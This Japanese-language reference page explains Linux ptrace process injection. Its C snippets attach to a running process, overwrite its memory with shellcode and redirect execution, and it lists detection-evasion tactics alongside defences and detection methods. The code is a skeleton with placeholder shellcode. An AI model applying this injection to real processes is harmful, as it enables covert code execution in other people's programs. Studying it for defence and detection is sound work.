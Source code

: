 # Ptrace Process Injection

**対応OS**: Linux

## 概要
ptraceシステムコールを使用して、実行中のプロセスにコードを注入する手法です。

## 基本的な実装

### プロセスのアタッチ
```c
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>

// プロセスにアタッチ
if (ptrace(PTRACE_ATTACH, target_pid, NULL, NULL) == -1) {
    perror("ptrace(ATTACH)");
    return -1;
}

// プロセスの停止を待機
waitpid(target_pid, NULL, 0);
```

### メモリの読み書き
```c
// メモリの読み取り
long read_data = ptrace(PTRACE_PEEKDATA, target_pid, 
    addr, NULL);

// メモリの書き込み
if (ptrace(PTRACE_POKEDATA, target_pid, 
    addr, data) == -1) {
    perror("ptrace(POKEDATA)");
    return -1;
}
```

### シェルコードの注入
```c
// レジスタの取得
struct user_regs_struct regs;
if (ptrace(PTRACE_GETREGS, target_pid, NULL, &regs) == -1) {
    perror("ptrace(GETREGS)");
    return -1;
}

// シェルコードの書き込み
unsigned char shellcode[] = {
    0x48, 0x31, 0xc0,                   // xor rax, rax
    0x48, 0xc7, 0xc7, 0x01, 0x00, 0x00, 0x00,  // mov rdi, 1
    0x48, 0xc7, 0xc6, 0x00, 0x00, 0x00, 0x00,  // mov rsi, 0
    0x48, 0xc7, 0xc2, 0x0c, 0x00, 0x00, 0x00,  // mov rdx, 12
    0x0f, 0x05                          // syscall
};

// シェルコードの書き込みとレジスタの設定
write_shellcode(target_pid, regs.rip, shellcode, sizeof(shellcode));
```

## 高度なテクニック

### メモリマップの取得
```c
void get_memory_map(pid_t pid)
{
    char maps_file[256];
    snprintf(maps_file, sizeof(maps_file), 
        "/proc/%d/maps", pid);
    
    FILE *fp = fopen(maps_file, "r");
    // メモリマップの解析
}
```

### コード実行
```c
// レジスタの設定
regs.rip = injection_addr;
if (ptrace(PTRACE_SETREGS, target_pid, NULL, &regs) == -1) {
    perror("ptrace(SETREGS)");
    return -1;
}

// プロセスの再開
ptrace(PTRACE_CONT, target_pid, NULL, NULL);
```

## 検知回避テクニック
- プロセス選択の工夫
- メモリパターンの偽装
- システムコールの分散
- タイミング制御

## 防御策
- ptraceの制限
- プロセスの保護
- メモリ領域の監視
- システムコールの監視

## 検知方法
- ptraceシステムコールの監視
- メモリ変更の検知
- プロセスの挙動分析
- システムコールトレース

## 注意事項
- このテクニックは教育目的でのみ使用してください
- 実環境での使用は法的責任を伴う可能性があります
- すべてのテストは許可された環境でのみ行ってください 